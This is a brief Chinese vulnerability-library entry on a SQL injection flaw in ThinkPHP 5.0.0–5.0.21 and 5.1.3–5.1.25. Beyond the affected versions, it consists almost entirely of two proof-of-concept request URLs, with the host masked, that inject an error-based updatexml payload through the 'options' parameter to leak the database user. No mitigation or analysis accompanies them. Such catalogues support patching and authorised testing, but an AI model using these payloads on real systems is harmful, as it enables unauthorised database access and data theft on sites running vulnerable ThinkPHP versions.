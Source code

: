 ```yaml
---
title: 'Thinkphp-5.0.(0-21)&5.1.(3-25)sql注入漏洞'
date: Wed, 07 Oct 2020 06:08:04 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞影响

5.0.0 <= ThinkPHP <= 5.0.21 5.1.3 <= ThinkPHP <= 5.1.25

### 漏洞POC

5.0.0~5.0.21 、 5.1.3～5.1.10

```
http://********/index/index/index?options=id)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23 **
```

5.1.11～5.1.25

```
http://********/index/index/index?options=id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23 
```





